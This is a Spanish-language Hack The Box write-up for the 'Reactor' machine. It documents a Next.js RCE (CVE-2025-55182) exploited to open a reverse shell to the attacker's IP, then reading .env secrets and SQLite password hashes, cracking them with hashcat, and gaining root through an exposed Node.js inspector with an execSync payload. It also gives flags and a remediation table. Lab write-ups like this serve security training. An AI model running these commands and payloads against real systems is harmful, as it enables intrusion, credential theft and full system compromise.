




# HTB Machine Report — Reactor

**Date:** 2026-05-25
**Author:** Franksimon
**Platform:** Hack The Box
**Difficulty:** EASY
**OS:** Linux
**IP:** 10.129.6.85
**Status:** Pwned

---

## 1. Executive Summary

Reactor es una máquina Linux que expone una aplicación web Next.js 15.0.3 vulnerable a ejecución remota de código (CVE-2025-55182) mediante prototype pollution en React Server Components. El acceso inicial se obtiene como usuario `node`. Posteriormente se descubren credenciales en una base de datos SQLite que permiten acceso SSH como `engineer`. La escalación a root se logra abusando del modo de debugging de Node.js (`--inspect`) que corre como root con el puerto 9229 expuesto localmente, permitiendo ejecutar código arbitrario en el contexto del proceso privilegiado.

**Cadena de ataque:**
```
RCE via CVE-2025-55182 → shell como node → SQLite DB → credenciales SSH → engineer → Node.js inspector → root
```

---

## 2. Enumeration

### 2.1 Port Scan

```bash
sudo nmap -Pn -p- -sS -sV --min-rate 5000 -T4 10.129.6.85
```

| Port    | State | Service | Version              |
|---------|-------|---------|----------------------|
| 22/tcp  | open  | SSH     | OpenSSH 9.6p1 Ubuntu |
| 3000/tcp| open  | HTTP    | Next.js 15.0.3       |

- TTL=63 → Linux
- Puerto 3000 identificado por nmap como `ppp?` pero el fingerprint HTTP revela headers de Next.js

### 2.2 Reconocimiento Web — Puerto 3000

Accediendo a `http://10.129.6.85:3000` se encuentra **ReactorWatch Core Monitoring System v3.2.1** — un dashboard de monitoreo de un reactor nuclear.



**Tecnologías identificadas con Wappalyzer:**
- Next.js 15.0.3
- React
- Node.js

**Personal visible en la aplicación (posibles usernames):**
- Dr. Elena Rodriguez — Lead Nuclear Engineer — ONLINE
- Marcus Kim — Senior Technician — ONLINE
- James Thompson — Safety Officer — OFFLINE



**Footer:** `REACTORWATCH™ © 2025 NUCLEAR DYNAMICS CORP. | FACILITY: SITE-7 | CLASSIFICATION: RESTRICTED`

### 2.3 Enumeración de Directorios

```bash
gobuster dir -u http://10.129.6.85:3000 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x js,json,txt -t 100
```

Sin resultados relevantes — falsos positivos del wordlist.

### 2.4 Identificación de versión Next.js

```bash
curl -s http://10.129.6.85:3000 | grep -oP '/_next/static/chunks/[^"]+\.js' | head -10
```

Confirmada versión **Next.js 15.0.3** por Wappalyzer y headers HTTP.

---

## 3. Vulnerability Identification

| # | Vulnerability | CVE | CVSS | Location |
|---|--------------|-----|------|----------|
| 1 | Next.js RSC RCE via Prototype Pollution | CVE-2025-55182 | 9.8 | Puerto 3000 |
| 2 | Credenciales en base de datos SQLite sin cifrar | — | 7.5 | `/opt/reactor-app/reactor.db` |
| 3 | Hash MD5 sin salt (débil) | — | 6.0 | reactor.db → tabla users |
| 4 | Node.js inspector expuesto como root | — | 9.0 | 127.0.0.1:9229 |

### CVE-2025-55182 — Next.js React Server Components RCE

**Concepto:** Next.js 15.0.3 y versiones anteriores son vulnerables a prototype pollution en el mecanismo de React Server Components (RSC). Un atacante puede manipular el prototipo de objetos JavaScript para inyectar propiedades maliciosas que se ejecutan durante el procesamiento de componentes del servidor. Esto permite RCE en el contexto del proceso Node.js que sirve la aplicación.

**Por qué es explotable:** Los RSC procesan datos del cliente sin validación suficiente del prototipo de los objetos recibidos. Al contaminar `Object.prototype`, el payload se propaga a cualquier operación que herede de ese prototipo durante el ciclo de render del servidor.

---

## 4. Exploitation

### 4.1 Initial Access — CVE-2025-55182 (Next.js RCE)

**Preparación del exploit:**

```bash
# Instalar dependencias en entorno virtual
python3 -m venv .venv
source .venv/bin/activate
pip install requests rich_click fake_useragent urllib3
```

**Verificación de vulnerabilidad:**

```bash
python3 exploit.py -u http://10.129.6.85:3000 -c "id"
```

```
Success
uid=999(node) gid=988(node) groups=988(node)
```

Target confirmado como vulnerable.

**Reverse Shell:**

```bash
# El exploit maneja el listener internamente
python3 exploit.py -u http://10.129.6.85:3000 -r -l 10.10.14.64 -p 4444 -P nc-mkfifo
```

**Estabilización de la shell:**

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo; fg
export TERM=xterm
```



**Resultado:** Shell interactiva como `node@reactor:/opt/reactor-app$`

### 4.2 Reconocimiento Post-Explotación

**Archivos en `/opt/reactor-app`:**
```
app/  next.config.js  node_modules/  package.json  package-lock.json  reactor.db
```

**Credenciales en `.env`:**

```bash
cat /opt/reactor-app/.env
```

```
DB_PATH=/opt/reactor-app/reactor.db
SENSOR_API_KEY=rw_sk_7f8a9b2c3d4e5f6g7h8i9j0k
ALERT_WEBHOOK=https://alerts.internal.reactor.htb/webhook
NODE_ENV=production
```

**Base de datos SQLite — tabla users:**

```bash
sqlite3 /opt/reactor-app/reactor.db .tables
# sensor_logs  users

sqlite3 /opt/reactor-app/reactor.db "SELECT * FROM users;"
```

```
1|admin|a203b22191d744a4e70ada5c101b17b8|administrator|admin@reactor.htb
2|engineer|39d97110eafe2a9a68639812cd271e8e|operator|engineer@reactor.htb
```

### 4.3 Cracking de Hashes MD5

Los hashes están en formato MD5 sin salt — algoritmo débil, reversible con diccionario.

```bash
echo "a203b22191d744a4e70ada5c101b17b8" > hashes.txt
echo "39d97110eafe2a9a68639812cd271e8e" >> hashes.txt
hashcat -m 0 hashes.txt rockyou.txt
```

**Resultados:**

| Usuario | Hash MD5 | Password |
|---------|----------|----------|
| admin | a203b22191d744a4e70ada5c101b17b8 | no encontrada en rockyou |
| engineer | 39d97110eafe2a9a68639812cd271e8e | **reactor1** |

### 4.4 Acceso SSH como engineer

```bash
ssh engineer@10.129.6.85
# Password: reactor1
```



---

## 5. Post-Exploitation

### 5.1 User Flag

```bash
cat ~/user.txt
```

**User flag:** `1e9def6350d85a4e1bf21cb611c1034b`

---

## 6. Privilege Escalation — Node.js Inspector Abuse

### 6.1 Enumeración de Privilegios

```bash
sudo -l
# Sorry, user engineer may not run sudo on reactor.

find / -perm -4000 -type f 2>/dev/null
# Binarios SUID estándar, nada explotable

id
# uid=1000(engineer) gid=1000(engineer) groups=1000(engineer),4(adm),24(cdrom),30(dip),46(plugdev),101(lxd)
```

Grupo `lxd` presente (vector alternativo via contenedor privilegiado), pero se descartó por falta de acceso a internet desde el target.

### 6.2 Proceso root con Node.js Inspector

```bash
ps aux | grep root
```

Proceso crítico encontrado:
```
root  1399  /usr/bin/node --inspect=127.0.0.1:9229 /opt/uptime-monitor/worker.js
```

**Concepto:** La flag `--inspect` activa el protocolo de debugging de Node.js (Chrome DevTools Protocol) en el puerto 9229. Esto abre un servidor WebSocket que acepta conexiones y permite ejecutar JavaScript arbitrario en el contexto del proceso — en este caso, **root**.

Aunque está bindeado a `127.0.0.1` (no accesible externamente), cualquier usuario local puede conectarse.

```bash
ss -tlnp | grep 9229
# LISTEN 0  511  127.0.0.1:9229  0.0.0.0:*

curl -s http://127.0.0.1:9229/json
```

```json
[{
  "id": "0db0e9e7-efbd-4124-9d7e-cbbc59b1be42",
  "title": "/opt/uptime-monitor/worker.js",
  "webSocketDebuggerUrl": "ws://127.0.0.1:9229/0db0e9e7-efbd-4124-9d7e-cbbc59b1be42"
}]
```

### 6.3 Explotación del Inspector

```bash
node inspect 127.0.0.1:9229
```

Una vez dentro del debugger, se ejecuta código JavaScript en el contexto del proceso root:

```js
exec("process.mainModule.require('child_process').execSync('cat /root/root.txt').toString()")
```

**Desglose del payload:**
- `exec(...)` — evalúa JS en el proceso objetivo (función del debugger)
- `process.mainModule.require('child_process')` — importa el módulo nativo para ejecutar comandos shell; `require` directo no funciona en el debugger, pero `process.mainModule.require` sí porque accede al sistema de módulos del proceso original
- `.execSync('cat /root/root.txt').toString()` — ejecuta el comando como root y devuelve el output

**Resultado:**
```
'3a22fec481c42917c8e1ab76594dd54c\n'
```

### 5.2 Root Flag

**Root flag:** `3a22fec481c42917c8e1ab76594dd54c`

---

## 7. Remediation

| Finding | Recommendation | Priority |
|---------|---------------|----------|
| CVE-2025-55182 Next.js RCE | Actualizar Next.js a versión parcheada | Critical |
| Node.js `--inspect` como root | Eliminar `--inspect` en producción; si es necesario, usar socket Unix con permisos restrictivos | Critical |
| Hashes MD5 sin salt | Migrar a bcrypt/argon2 con salt único por usuario | High |
| Credenciales en `.env` | Usar gestor de secretos (Vault, AWS Secrets Manager) | High |
| Base de datos SQLite con usuarios expuesta | Restringir permisos de lectura al proceso de la app únicamente | Medium |

---

## 8. Lessons Learned

- **Next.js versión en Wappalyzer** → buscar CVEs antes de enumerar más. La versión exacta fue el vector principal.
- El inspector de Node.js (`--inspect`) en producción como proceso root es un vector de privesc poco conocido pero efectivo.
- `ps aux | grep inspect` debería ser parte del checklist de privesc en Linux cuando hay Node.js presente.
- SQLite databases en aplicaciones web frecuentemente contienen credenciales — siempre revisar `.db` files.
- MD5 sin salt → hashcat con rockyou en segundos. Nunca usar MD5 para passwords.

> **OSCP note:** Para detectar Node.js inspector como vector de privesc:
> ```bash
> ps aux | grep -E "\-\-inspect|\-\-inspect-brk"
> ss -tlnp | grep 9229
> ```
> Si el proceso es root y el puerto está disponible localmente → `node inspect 127.0.0.1:9229` + `exec("process.mainModule.require('child_process').execSync('id').toString()")`

---

## 9. References

- CVE-2025-55182: Next.js React Server Components RCE via Prototype Pollution
- Node.js Inspector Security: https://nodejs.org/en/docs/guides/debugging-getting-started#security-implications
- HackTricks — Node.js Privilege Escalation via Inspector
- HTB Machine: Reactor
